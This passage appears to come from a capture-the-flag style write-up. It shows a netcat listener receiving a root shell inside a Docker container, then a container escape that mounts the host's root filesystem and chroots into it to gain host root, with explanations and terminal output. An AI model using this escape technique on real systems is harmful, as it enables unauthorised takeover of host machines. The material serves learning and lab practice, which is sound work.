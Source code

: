 ### 10.1 Root in container

```bash
└─$ rlwrap -f . nc -lvnp 2222
root@a592aacdfec2:~/.hfs# groups
root
root@a592aacdfec2:~/.hfs# id
uid=0(root) gid=0(root) groups=0(root)
root@a592aacdfec2:~/.hfs#
root@a592aacdfec2:~/.hfs# docker ps
CONTAINER ID   IMAGE          COMMAND                  CREATED         STATUS       PORTS                    NAMES
a592aacdfec2   ubuntu:20.04   "/bin/bash -c 'apt-g…"   6 hours ago     Up 6 hours   127.0.0.1:9090->80/tcp   docker-hfs_hfs_1
8485358c3c48   mysql:8.0.0    "docker-entrypoint.s…"   11 months ago   Up 6 hours   3306/tcp                 docker-wp_db_1
3ed5ddfe0e0c   wordpress      "docker-entrypoint.s…"   11 months ago   Up 6 hours   1
```
{: .nolineno }

`docker ps` confirmed this environment had access to host mounts or was running in Docker with host visibility.

### 10.2 Escaping to host filesystem (host root)

To reach the host filesystem and obtain host root, the following command was executed inside the compromised container:

```bash
# inside root shell in container
docker run -v /:/mnt --rm -it ubuntu:20.04 chroot /mnt sh
```
{: .nolineno }

**What this does & why it works:**

- `docker run -v /:/mnt ...` mounts the host root (`/`) into the new container at `/mnt`.
    
- `chroot /mnt sh` changes the root of the shell to the mounted host filesystem, giving a shell with host root privileges (if the environment permits it).
    
- This technique effectively allows interacting with the host filesystem as root. If Docker socket or privileged operations are available from within the compromised context, this is a straightforward route to host compromise.
    
```bash
root@a592aacdfec2:~/.hfs# docker run -v /:/mnt --rm -it ubuntu:20.04 chroot /mnt sh
# whoami
root
# hostname
e06ae16bda0e
# cd ~
# ls -al
total 40
drwx------  6 root root 4096 Aug 22  2024 .
drwxr-xr-x 18 root root 4096 Aug 21  2024 ..
lrwxrwxrwx  1 root root    9 Aug 22  2024 .bash_history -> /dev/null
-rw-r--r--  1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x  3 root root 4096 Aug 22  2024 .docker-hfs
drwxr-xr-x  2 root root 4096 Aug 22  2024 .docker-wp
-rw-------  1 root root   20 Aug 22  2024 .lesshst
drwxr-xr-x  3 root root 4096 Aug 21  2024 .local
-rw-r--r--  1 root root  161 Jul  9  2019 .profile
drwx------  2 root root 4096 Aug 21  2024 .ssh
-rw-r-----  1 root root   33 Aug 22  2024 root.txt
# 
```
{: .nolineno }
